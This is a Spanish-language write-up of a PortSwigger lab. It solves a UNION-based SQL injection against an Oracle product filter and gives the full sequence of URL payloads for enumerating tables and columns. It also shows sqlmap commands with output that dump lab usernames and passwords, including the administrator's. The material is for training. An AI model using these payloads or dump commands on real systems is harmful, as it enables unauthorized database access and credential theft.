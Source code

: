 ```yaml
---
title: SQL injection attack, listing the database contents on Oracle
date: 2024-11-15 12:36:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQL injection attack, listing the database contents on Oracle
  - SQLI (Error Based)
  - Oracle Database
image:
  path: /assets/img/SQLI-Lab-6/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que hay que usar un `ataque UNION` para recuperar datos de otras `tablas`. La aplicación tiene una `función` de `inicio` de `sesión`, y la `base` de `datos` contiene una `tabla` que almacena `nombres` de `usuario` y `contraseñas`. Determinamos el `nombre` de esta `tabla` y las `columnas` que contiene, luego `recuperamos` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los `usuarios`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-6/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-6/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-6/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-6/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Lifestyle'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-6/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Lifestyle'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir tres columnas nos arroja un fallo

```
/filter?category=Lifestyle'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, usamos `from dual` debido a que estamos ante una base de datos `Oracle`

```
/filter?category=Lifestyle'+union+select+null,null+from+dual--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Lifestyle'+union+select+null,banner+from+v$version--+-+
```

![](/assets/img/SQLI-Lab-6/image_6.png)

`Listamos` el `nombre` de todos los propietarios

```
/filter?category=Lifestyle'+union+select+null,owner+from+all_tables--+-+
```

![](/assets/img/SQLI-Lab-6/image_7.png)

`Listamos` el `nombre` de la `base` de `datos` en uso

```
/filter?category=Lifestyle'+union+select+null,global_name+from+global_name--+-+
```

![](/assets/img/SQLI-Lab-6/image_8.png)

`Listamos` las `tablas` cuyo `propietario` es `PETER`

```
/filter?category=Lifestyle'+union+select+null,table_name+from+all_tables+where+owner='PETER'--+-+
```

![](/assets/img/SQLI-Lab-6/image_9.png)

`Listamos` las `columnas` de la tabla `USERS_NWMYAE`

```
/filter?category=Lifestyle'+union+select+null,column_name+from+all_tab_columns+where+table_name='USERS_NWMYAE'--+-+
```

![](/assets/img/SQLI-Lab-6/image_10.png)

`Obtenemos` el contenido de las columnas `PASSWORD_NDAIAQ` y `USERNAME_SDYBVL`

```
/filter?category=Lifestyle'+union+select+PASSWORD_NDAIAQ,USERNAME_SDYBVL+from+USERS_NWMYAE--+-+
```

![](/assets/img/SQLI-Lab-6/image_11.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [7]:
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] SYSTEM
[*] XDB
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER --tables --batch --threads 2 
Database: PETER
[2 tables]
+--------------+
| PRODUCTS     |
| USERS_GRCOPU |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU --columns --batch --threads 2   
Database: PETER
Table: USERS_GRCOPU
[3 columns]
+-----------------+----------+
| Column          | Type     |
+-----------------+----------+
| EMAIL           | VARCHAR2 |
| PASSWORD_EJHRJL | VARCHAR2 |
| USERNAME_RZIDBZ | VARCHAR2 |
+-----------------+----------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# qlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU -C PASSWORD_EJHRJL,USERNAME_RZIDBZ --dump --batch --threads 2
Database: PETER
Table: USERS_GRCOPU
[3 entries]
+----------------------+-----------------+
| PASSWORD_EJHRJL      | USERNAME_RZIDBZ |
+----------------------+-----------------+
| mgbyibei3vhwt891natb | administrator   |
| l4yb7rhby75261r7u622 | wiener          |
| uhnlgaqk499jfc1lu576 | carlos          |
+----------------------+-----------------+
```

Una vez obtenida la contraseña del usuario `administrator` podemos `loguearnos`

![](/assets/img/SQLI-Lab-6/image_12.png)
